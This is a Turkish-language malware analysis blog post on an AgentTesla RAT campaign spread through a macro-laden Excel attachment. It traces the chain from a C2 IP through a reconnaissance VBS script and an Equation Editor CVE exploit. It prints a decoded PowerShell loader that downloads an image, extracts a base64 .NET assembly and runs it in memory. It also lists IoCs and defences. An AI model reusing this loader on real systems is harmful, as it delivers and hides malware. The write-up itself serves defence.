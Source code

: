 # AgentTesla Excel Zararlı Yazılımı IoC Çalışması
<p>
    Merhabalar,<br>
    Arkadaşlar bu yazımda sizlerle beraber AgentTesla adlı RAT yazılımını inceleyeceğiz.
</p>

## Disclaimer | Yasal Uyarı
<p>
  Bu blog yazısında sağlanan bilgiler yalnızca eğitim ve bilgilendirme amaçlıdır. <b>Bilgisayar korsanlığı, siber saldırılar veya bilgisayar sistemlerine, ağlara veya verilere herhangi bir şekilde yetkisiz erişim de dahil olmak üzere herhangi bir yasa dışı veya etik olmayan faaliyeti</b> teşvik etme veya reklam etme amacı taşımaz.
<br><br>
  Disclaimer: The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks or data.
</p>

## Yayılış Biçimi
<p>
    Virüs genel olarak e-mail ortamında ve e-maillere ek olarak eklenmiş dosyalarda yayıldığını görmekteyiz. Ek dosyayı açtığınızda çalışmaktadır.
    <br><br>
    <img src="harmful_mail_example.png" />
    <br><br>
</p>

## Çalışma Mantığı
<p>
    Zararlı yazılımın çalışma mantığını ifşa etmek amacıyla çalışmalarda zararlı Excel dosyasının (Dosya Adı: Order_HR WJO-29-09_1.xlam.xlsx) içerisindeki "makro" olarak bilinen Visual Basic kodları yardımıyla "79.110.48.52" IP adresli bir makinaya dosya indirme isteği gönderdiğini gözlemliyoruz.
    <br>
    IP adresine direkt olarak HTTP portu üzerinden bağlandığımızda bizi IIS ekranı karşılamaktadır. Buradan server üzerinde Windows OS işletim sisteminin çalıştığını görmekteyiz.
    <br><br>
    <img src="c2_server.png" />
    <br><br>
    IP adresli makina ve makro kodları üzerinde yaptığım çalışmalarda IP adresinde "ngown.vbs" ve "ngohms.txt" adlı iki dosyaya rast geldim.
    <br>
    Öncelikle "ngown.vbs" adlı dosyayı incelediğimizde karşımıza bazı Windows komutları çıkmakta ve bu komutlarla hedef cihaz hakkında Ağ Cihazları bilgileri, WCN dosya bilgileri, Güvenlik Duvarı bilgileri ve Ağ Keşfi gibi pek çok bilgiyi edinmeye çalıştığı görülmüştür.
    <br><br>
    <img src="vbs_file.png" />
    <br><br>
    Bahsi geçen sunucu üzerinden CVE 2017-11882 ve/veya CVE-2018-0802 zafiyetini sömürmeyi sağlayan "ngohms.txt" kodu çağırılmaktadır. Zafiyetin kaynağı olan "EQNEDT32.EXE" adlı Office dosyası çalışmaya başlar ve zafiyet sömürülerek sonraki aşamaya geçilir. 
    <br><br>
    <img src="txt_file.png" />
    <br><br>
    Bu kod ile sistem içerisinde tamamen gizlenerek Anti-Virüs programlarından tamamen gizlenebilmektedir. "ngohms.txt" adlı veri dosyasını dosyasını tamamen dekripte ettiğimizde ise ortaya çıkan kod ise şöyledir,
    <br><br>
    <code>
    $imageurl = "https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg"
    $webclient = new-object system.net.webclient
    $imagebytes = $webclient.downloaddata("https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg")
    $imagetext = ([system.text.encoding]::ascii).getstring($imagebytes)
    $startflag = "<>"
    $endflag = "<>"
    $startindex = $imagetext.indexof("<>")
    $endindex = $imagetext.indexof("<>")
    $startindex -ge 0 -and $endindex -gt $startindex
    $startindex = $startflag.length
    $base64length = $endindex - $startindex
    $base64command = $imagetext.substring($startindex, $base64length)
    $commandbytes = [system.convert]::frombase64string($base64command)
    $loadedassembly = [system.reflection.assembly]::load($commandbytes)
    $type = $loadedassembly.gettype("Fiber.Home")
    $method = ($type.getmethod("VAI")).invoke($null, [object[]]"txt.smhogn/25.84.011.97//:ptth", "dfdfd", "dfdf", "dfdf", "dadsa", "de", "cu")
    </code>
    <br><br>
    IoC testimiz devam ederken bu kod parçası yardımıyla "uploaddeimagens.com.br" web sitesinden JPEG dosyası formatında görünen bir virüs olduğunu görüyoruz. Burada resmi incelemeye başlıyoruz
    <br><br>
    <img src="harmful_img.png" />
    <br><br>
    Masumane bir resim gibi görünüyor fakat içerisindeki string verileri maalesef öyle değil. Resmin içeriğini incelediğimizde asıl gerçeği görmekteyiz. Resim içeriğinin başında bildiğimiz resim verileri varken sonunda bir BASE64 şifreleme algoritması ile şifrelenmiş veri görmekteyiz.
    <br><br>
    <img src="harmful_img_b64.png" />
    <br><br>
    Base64 kodunu da dekripte ettiğimizde ise karşımıza çıkan bir EXE dosyasının BASE64 şeklinde dosya içeriğine gizlendiğini görmekteyiz.
    <br><br>
    <img src="b64_decrypt.png" />
    <br><br>
    Bu kodun EXE içeriğini de incelediğimizde "RegAsm.exe" adlı yazılıma ait olduğunu buluyoruz. Fakat bu yazılımın çalıştıktan sonra bir HID (Donanım) olarak algılanmak için bir sürücü indirdiğini fark ediyoruz. Bu sayede kendisini bilgisayara bağlı bir donanım olarak göstererek çalışmaya devam edecek.
    <br><br>
    <pre>http://********.com/******/dstrootcax3.p7c</pre>
    <br><br>
    Bu aşamada virüsün çalışma aşamaları bitti. Bu aşamadan itibaren zararlı yazılımın sahibine haber verip vermediğini araştırmaya başladım.
    <br>
    RegAsm.exe üzerinde yaptığım ek çalışmalarda da istediğime ulaşarak mail sunucusu üzerinden sahibine haber verdiğini fark ettim.
    <br>
    <pre>
    Host : mail.********.***
    Username : niggabown20thsept@worlorderbillions.top
    </pre>
</p>

## Çözüm Önerisi
<ul>
    <li>Virüs koruma yazılımlarını güncel tutmak</li>
    <li>SPAMHaus tarafından tutulan zararlı mail listelerini güncellemek</li>
    <li>Bahsi geçen "79.110.48.52" IP adresini güvenlik duvarı yazılımlarından engellemek</li>
    <li>VBS dosyalarının açılmasını Domain Controller üzerinden engellemek</li>
    <li>Excel makrolarını kapalı tutmak</li>
    <li>Kurumsal düzeyde bilinmeyen mail adreslerinden gelen dosyaların AÇILMAMASI gerektiğini personellere anlatmak</li>
</ul>
